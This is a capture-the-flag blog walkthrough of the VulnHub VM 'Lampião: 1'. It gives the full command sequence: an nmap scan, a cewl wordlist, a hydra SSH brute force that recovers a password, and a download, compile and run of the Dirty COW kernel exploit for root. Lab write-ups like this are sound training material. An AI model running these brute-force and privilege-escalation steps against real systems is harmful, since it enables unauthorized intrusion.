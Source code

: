 ```yaml
---
layout: post
date: 2018-08-06 10:42:58 +0000
last_modified_at: 2018-08-06 13:22:13 +0000
title: "Lampião: 1 Walkthrough"
subtitle: "Hero or Villain?"
category: Walkthrough
tags: [VulnHub, "Lampiao"]
comments: true
image:
  feature: lampiao-1-walkthrough.jpg
  credit: Voltordu / Pixabay
  creditlink: https://pixabay.com/en/darth-vader-star-wars-geek-1207142/
---
```


This post documents the complete walkthrough of Lampião: 1, a boot2root [VM][1] created by [Tiago Tavares][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

"Captain" Virgulino Ferreira da Silva, better known as **Lampião**, was the most famous bandit leader of the Cangaço. The aim is to get `root`.

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?   syn-ack ttl 64
| fingerprint-strings:
|   NULL:
|     _____ _ _
|     |_|/ ___ ___ __ _ ___ _ _
|     \x20| __/ (_| __ \x20|_| |_
|     ___/ __| |___/ ___|__,_|___/__, ( )
|     |___/
|     ______ _ _ _
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
```

`nmap` finds `22/tcp`, `80/tcp` and `1898/tcp` open—and there's something interesting behind `80/tcp`.

![Son of a Bitch](/assets/images/posts/lampiao-1-walkthrough/8b3f5f0a.png)

"Fi duma égua" is a not-so-elegant word for referring to someone. I leave it for the curious reader to find out what it means. :laughing:

### Drupal

Another service worth exploring is Drupal, which runs behind `1898/tcp`. Here's how it looks like.

![Drupal](/assets/images/posts/lampiao-1-walkthrough/5e40c98e.png)

To be honest, I'm always excited to see non-English language in display because that means I can generate a wordlist from it. There's always a high chance of getting a password judging from my experience.

Let's use `cewl` to generate a wordlist from the post "**Lampião, herói ou vilão do Sertão?**". The command goes like this.

```
# cewl -w cewl.txt http://192.168.10.130:1898/?q=node/1
# wc -l cewl.txt
835 cewl.txt
```

### Hail Hydra

Notice the two usernames below: `tiago` and `eder`.

![Usernames](/assets/images/posts/lampiao-1-walkthrough/ba3ec0df.png)

Let's put them into a username list and go with `hydra` and the generated wordlist. Perhaps we can get lucky with SSH on our first attempt?

```
# echo tiago > usernames.txt
# echo eder >> usernames.txt
# hydra -L usernames.txt -P cewl.txt -f -e nsr -o hydra.txt -t 4 ssh://192.168.10.130
[22][ssh] host: 192.168.10.130   login: tiago   password: Virgulino
[STATUS] attack finished for 192.168.10.130 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Lucky indeed.

### Low-Privilege Shell

Not too shabby.

![shell](/assets/images/posts/lampiao-1-walkthrough/bd92b620.png)

### Privilege Escalation

Let's perform some basic enumeration to determine what we're dealing with.

```
$ uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
```

I'm going to use a [script](https://github.com/mzet-/linux-exploit-suggester) to suggest a couple of local privilege escalation exploits relevant to the distribution and kernel.

```
$ wget -q -O /tmp/linux-exploit-suggester.sh https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
$ chmod +x /tmp/linux-exploit-suggester.sh
$ /tmp/linux-exploit-suggester.sh
...
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

Let's test the exploit out.

```
$ wget -q -O /tmp/40847.cpp https://www.exploit-db.com/download/40847.cpp
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
$ ./dcow -s
```

![root](/assets/images/posts/lampiao-1-walkthrough/46ebbd22.png)

Boom.

### What's the Flag (WTF)?

![Flag](/assets/images/posts/lampiao-1-walkthrough/caa45484.png)

:dancer:

I wonder what's the significance of `lampiao.jpg` to the flag. Here's what `lampiao.jpg` looks like.

![Lampião](/assets/images/posts/lampiao-1-walkthrough/lampiao.jpg)

### Afterthought

The VM isn't hard. Don't think too deep, too far. Don't go down the rabbit hole. Tiago (the creator of this VM) laid down a bunch of teasers that may steer you off course.

One good example is `qrc.png` in the Drupal home directory.

![qrc.png](/assets/images/posts/lampiao-1-walkthrough/qrc.png)

It was decoded to "Try harder! muahuahua" :unamused:

Another example was the removal of read permissions of `/etc/cangaco/lampiao.*`. That's a good one. It piqued my curiosity so much I almost pulled out all my hair trying to read them.

[1]: https://www.vulnhub.com/entry/lampiao-1,249/
[2]: https://twitter.com/@tiagotvrs
[3]: https://www.vulnhub.com/
